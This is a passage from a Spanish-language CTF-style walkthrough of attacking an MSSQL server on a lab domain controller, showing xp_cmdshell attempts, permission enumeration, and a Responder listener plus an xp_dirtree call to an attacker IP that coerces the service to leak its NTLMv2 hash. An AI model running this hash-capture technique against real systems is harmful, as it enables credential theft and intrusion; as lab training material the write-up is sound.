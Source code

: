 Sólo las por defecto, ahora probamos si podemos de pura casualidad, ejecutar comandos:

```js
SQL (scott  guest@master)> xp_cmdshell ''whoami''
ERROR(DC01): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
```

También negado, ahora, enumeramos si podemos hacer impersonate a algún usuario:

```js
SQL (scott  guest@master)> SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
name   
----    
```

Tampoco nos devuelve algo, podemos probar `linked servers`

```js
SQL (scott  guest@master)> SELECT srvname, isremote FROM sysservers
srvname   isremote   
-------   --------   
DC01             1
```

Nada a lo que podamos movernos. Algo que podemos hacer, es robar el _hash_ del servicio `mssql` y con algo de fé, poder desencriptar su `NTLMv2` y poder acceder al servicio con esa cuenta:

Para este objetivo, devemos primero montar con `responder` un servicio para poder capturar el hash de la solicitud desde nuestra máquina de atacante:

```js
❯ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

[+] Current Session Variables:
    Responder Machine Name     [WIN-R7M8OCPRO3O]
    Responder Domain Name      [0K2S.LOCAL]
    Responder DCE-RPC Port     [48186]

[+] Listening for events...
 
```

Una vez montado, sólo debemos hacer una `request` desde `mssql` o bien, utilizando `xp_dirtree` o `xp_subdirs`:

```js
SQL (scott  guest@master)> EXEC master..xp_dirtree '\\10.10.16.6\shared\inexist'
subdirectory   depth   
------------   -----   
```
